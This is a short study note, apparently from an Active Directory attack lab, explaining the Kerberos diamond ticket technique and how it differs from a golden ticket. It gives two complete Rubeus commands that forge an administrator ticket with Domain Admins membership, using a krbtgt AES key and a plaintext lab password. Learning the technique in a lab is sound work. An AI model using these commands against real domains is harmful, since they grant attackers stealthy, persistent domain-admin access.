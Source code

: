 A diamond ticket is created by decrypting a valid TGT, making changes to
it and re-encrypt it using the AES keys of the krbtgt account. **This is a ticket repackaging attack**

Once again, the persistence lifetime depends on krbtgt account.
A diamond ticket is more **OPSEC** safe as it has a valid ticket times because a TGT issued by the DC is modified

Golden ticket was a **TGT forging attack** whereas diamond ticket is a TGT
modification attack

We would still need `krbtgt` AES keys to create a diamond ticket like so. Note that RC4 or AES keys of the user can be used
too):
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:student548 /password:cAyF6wTLSydnL2M7 /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

We could also use `/tgtdeleg` option in place of credentials in case we're running it as a domain user
```powershell
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

![[Pasted image 20250510210937.png]]